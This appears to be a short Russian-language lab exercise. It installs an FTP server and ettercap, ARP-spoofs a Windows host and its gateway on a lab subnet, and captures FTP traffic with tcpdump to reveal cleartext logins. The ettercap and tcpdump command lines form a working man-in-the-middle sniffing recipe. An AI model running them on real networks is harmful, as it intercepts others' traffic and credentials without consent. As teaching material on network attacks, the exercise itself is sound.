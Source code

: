Сервер FTP

Установка и запуск сервиса

```
root@server:~# apt install proftpd-basic

```

Утилита ettercap

Установка

```
lan# apt install ettercap-text-only
```

ARP спуфинг
```
win arp -a
```
```
lan# ettercap -T -M arp //192.168.100.<ip windows> // //192.168.100.1//
```
```
win arp -a
```
```
lan# tcpdump -n -s0 -A port 21
```

Произвести подключение к FTP и посмотреть трафик
